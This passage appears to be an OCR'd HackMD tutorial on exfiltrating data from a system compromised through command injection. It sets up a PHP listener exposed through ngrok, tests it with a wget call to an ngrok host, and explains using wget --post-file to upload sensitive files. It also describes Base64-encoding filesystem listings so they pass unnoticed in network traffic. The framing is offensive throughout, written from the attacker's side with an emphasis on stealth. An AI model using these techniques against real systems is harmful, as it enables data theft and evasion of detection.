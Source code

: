 ![image](https://hackmd.io/_uploads/HkiSPnyWyx.png)

## Configuring a Server to Receive Exfiltrated Data
To exfiltrate data from a compromised system, we’ll set up a PHP server on our attacking machine and use Ngrok to make it accessible over the internet. This allows us to receive files that wget retrieves from the target system via command injection.

Starting a PHP Server

```
php -S 0.0.0.0:8888 -t .
```
![image](https://hackmd.io/_uploads/HJ_Hqn1bJe.png)

Port Forwarding with Ngrok

```
ngrok http 127.0.0.1:8888
```

![image](https://hackmd.io/_uploads/rJe1s3kb1g.png)

### Wget utility
wget is a command-line utility used to download files from the internet, commonly found on Linux systems. It supports `HTTP, HTTPS, and FTP` protocols, making it versatile for fetching files from various sources. While typically used to retrieve content from the web, wget also has powerful options that can be creatively leveraged for exfiltration and data transfers. You can learn more about wget [here](https://www.cbtnuggets.com/blog/technology/system-admin/what-is-wget-in-linux)

`wget` can be adapted to upload files to a remote server using the `--post-file` option. This option sends a file from the target machine to a specified URL, which can then be captured by a listening server. With command injection, `wget` can be used to pull sensitive files from a compromised system and send them to a remote location without requiring direct interaction with the target. This makes wget an effective tool for stealthy data exfiltration.

Testing our server
```
wget http://0b0e-41-74-120-172.ngrok-free.app/test.txt
```
![image](https://hackmd.io/_uploads/H1ZW331WJe.png)

![image](https://hackmd.io/_uploads/B1pM2nkZyl.png)


## Navigating and Exploring the Filesystem
In the process of exfiltrating sensitive data from a compromised system, effectively mapping the filesystem is a crucial step foran attacker seeking to uncover valuable information. 

Using this command which systematically enumerate the contents of the root filesystem, encode that information in Base64 to obfuscate it, and send each encoded line to a remote server using wget. This approach can be part of an exfiltration strategy, allowing an attacker to stealthily transfer sensitive filesystem information without raising immediate alarms. The use of Base64 encoding helps reduce the likelihood of detection in network traffic by making the transmitted data less readable.
